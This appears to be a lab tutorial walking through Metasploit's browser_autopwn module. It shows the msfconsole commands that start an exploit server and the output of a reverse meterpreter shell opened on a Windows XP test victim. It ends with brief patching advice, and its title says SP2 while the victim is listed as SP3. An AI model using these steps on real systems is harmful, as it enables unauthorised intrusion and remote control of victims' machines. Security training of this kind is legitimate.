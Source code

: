 Metasploit Browser Autopwn – Windows XP SP2
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div class="code">
<font color="silver">root@kali:~$</font> <b>msfconsole</b><br>
<font color="silver">msf ></font> <b>use auxiliary/server/browser_autopwn</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set LHOST 192.168.1.12</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set SRVPORT 80</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set URIPATH /</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>run</b><br>
<br>
<font color="silver">[*] Starting exploit modules on host 192.168.1.12...</font><br>
<font color="silver">[*] Server started.</font>
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div class="code">
<font color="silver">[*] Meterpreter session 1 opened (192.168.1.12:7777 -> </font><br>
<font color="silver">192.168.1.13:1045) at 2015-07-25 05:08:06 -0400</font><br>
<font color="silver">...</font><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font><b> sessions -i 1</b><br>
<font color="silver">[*] Starting interaction with 1...meterpreter ></font><b> shell</b><br>
<font color="silver">Microsoft Windows XP [Version 5.1.2600]</font><br>
<font color="silver">(C) Copyright 1985-2001 Microsoft Corp.C:\Documents and Settings\IEUser\Desktop></font><b>echo %USERNAME%</b><br>
<font color="silver">Victim</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>ipconfig</b><br>
<font color="silver">Windows IP Configuration</font><br>
<br>
<font color="silver">Ethernet adapter Local Area Connection:</font><br>
<br>
<font color="silver">Connection-specific DNS Suffix . : Home</font><br>
<font color="silver">IP Address. . . . . . . . . . . . : 192.168.1.13</font><br>
<font color="silver">Subnet Mask . . . . . . . . . . . : 255.255.255.0</font><br>
<font color="silver">Default Gateway . . . . . . . . . : 192.168.1.1</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
